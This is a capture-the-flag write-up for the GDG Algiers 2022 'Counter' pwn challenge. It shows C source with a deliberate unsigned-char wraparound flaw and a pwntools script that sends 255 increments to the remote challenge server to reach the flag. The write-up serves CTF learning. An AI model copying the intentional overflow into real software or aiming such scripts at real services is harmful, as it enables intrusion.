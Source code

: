 ```yaml
---
title: "GDG-2022 -- Counter"
date: 2022-10-12T14:01:30+01:00
draft: true
description: "https://ctf.gdgalgiers.com/challenges"
tags : ['gdgalgiers', 'c', 'very easy', 'pwn']
aliases: [/ctf/gdg/pwn/counter/]
---
```



## Preview
![](https://github.com/0xWerz/CTF-writeups/blob/main/GDG-Algiers-2022/pwn/counter/img/desc.png?raw=true)

### Source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <unistd.h>
#include <errno.h>

#define NUM_BUF_SIZE 24
#define STRTOUL_BASE 10

void flag(void);

void disable_buffering(void);
void input_str(char *msg, char *str, size_t size);
unsigned long get_num(char *msg);

void flag(void) {
    system("cat flag.txt");
}

int main(int argc, char *argv[])
{
    unsigned char counter = 1;

    disable_buffering();

    while (true) {
        printf("Counter: %d\n", counter);
        puts("1) ++");
        puts("2) --");
        puts("3) Flag");
        puts("0) Exit");

        switch (get_num("Choice: ")) {
            case 1:
                counter++;
                break;
            case 2:
                if (counter > 1) {
                    counter--;
                }
                break;
            case 3:
                if (counter == 0) {
                    flag();
                } else {
                    puts("No.");
                }
                break;
            case 0:
                puts("Bye!");
            default:
                fprintf(stderr, "Invalid option\n");
                break;
        }

        putchar('\n');
    }

    return EXIT_SUCCESS;
}

void disable_buffering(void)
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}

void input_str(char *msg, char *str, size_t size)
{
    ssize_t num_bytes;

    fputs(msg, stdout);
    num_bytes = read(STDIN_FILENO, str, size - 1);
    if (num_bytes == -1) {
        perror("read");
        exit(EXIT_FAILURE);
    } else {
        str[num_bytes] = '\0';
    }

    return;
}

unsigned long get_num(char *msg)
{
    char str[NUM_BUF_SIZE] = { '\0' };
    char *endptr = NULL;
    unsigned long num;

    input_str(msg, str, NUM_BUF_SIZE);
    num = strtoul(str, &endptr, STRTOUL_BASE);
    if (errno == ERANGE) {
        perror("strtoul");
        exit(EXIT_FAILURE);
    }

    return num;
}
```
## Walkthrough

We know that the the unsigned char typically has a range of [0 to 255] for [more](https://www.geeksforgeeks.org/what-happens-if-loop-runs-till-maximum-of-signed-and-unsigned-in-c/) - if we loop through  it will jump to the 0 and that's the goal. I'll set up a script automation for that.  


```python
from pwn import *

r = remote("pwn.chal.ctf.gdgalgiers.com","1402")

for i in range(255 ):
    r.sendlineafter(b'Choice:', '1')

r.interactive()
```

